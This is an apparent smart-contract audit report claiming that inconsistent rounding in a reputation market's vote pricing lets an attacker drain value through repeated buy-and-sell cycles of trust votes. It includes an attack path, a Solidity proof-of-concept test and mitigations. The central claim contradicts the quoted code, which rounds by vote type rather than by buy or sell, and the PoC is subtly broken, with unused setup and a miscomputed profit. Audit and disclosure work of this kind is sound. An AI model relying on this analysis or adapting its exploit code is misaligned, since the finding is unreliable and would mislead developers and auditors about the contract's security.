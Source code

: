 Fluffy Charcoal Toad

High

# LMSR Price Manipulation via Inconsistent Rounding

### Summary

Inconsistent rounding modes in price calculations will cause a financial loss for the protocol and market participants as an attacker can exploit price differences through sequential buy/sell operations.

### Root Cause

In `ReputationMarket.sol:_calcVotePrice` the rounding modes are inconsistent between trust (Floor) and distrust (Ceil) votes:

https://github.com/sherlock-audit/2024-12-ethos-update/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L992

```javascript
return odds.mulDiv(
    market.basePrice, 
    1e18, 
    isPositive ? Math.Rounding.Floor : Math.Rounding.Ceil
);
```

### Internal Pre-conditions

1. Market needs to have active trading (not graduated)
2. Market needs to have sufficient liquidity for trades
3. Market votes need to be at relatively low numbers where rounding impact is significant

### External Pre-conditions

_No response_

### Attack Path

1. Attacker calls `buyVotes(profileId, true, largeAmount) `to buy trust votes at floor-rounded (lower) price
2. Attacker immediately calls `sellVotes(profileId, true, largeAmount)` to sell at ceiling-rounded (higher) price
3. Attacker repeats steps 1-2 to maximize profit
4. Each cycle generates profit from the rounding difference

### Impact

The protocol suffers continuous losses proportional to the volume of trades. Attacker gains the difference between ceiling and floor rounded prices on each cycle. At low vote counts, this can represent a significant percentage of trade value.

### PoC

```javascript
function testLMSRManipulation() public {
    // Setup market with low votes
    uint256 profileId = 1;
    uint256 initialVotes = 100;
    market.createMarket{value: 1 ether}();
    
    // Initial state
    uint256 attackerBalance = address(this).balance;
    
    // Execute attack cycle
    for(uint i = 0; i < 5; i++) {
        uint256 buyPrice = market.getVotePrice(profileId, true);
        market.buyVotes{value: buyPrice * 10}(profileId, true, 10);
        
        uint256 sellPrice = market.getVotePrice(profileId, true);
        market.sellVotes(profileId, true, 10);
        
        // Profit from each cycle
        uint256 profit = sellPrice - buyPrice;
        console.log("Profit from cycle:", profit);
    }
    
    assertGt(address(this).balance, attackerBalance);
}
```

### Mitigation

1. Use consistent rounding for both trust and distrust
```javascript
function _calcVotePrice(Market memory market, bool isPositive) private pure returns (uint256) {
    require(market.votes[TRUST] >= MIN_VOTES && market.votes[DISTRUST] >= MIN_VOTES, 
            "Below minimum votes");
    
    uint256 odds = LMSR.getOdds(
        market.votes[TRUST],
        market.votes[DISTRUST],
        market.liquidityParameter,
        isPositive
    );
    
    return odds.mulDiv(market.basePrice, 1e18, Math.Rounding.Floor);
}
```

2. Add minimum vote thresholds to reduce impact of rounding
3. Implement trade size limits
4. Add cooldown period between buy and sell operations
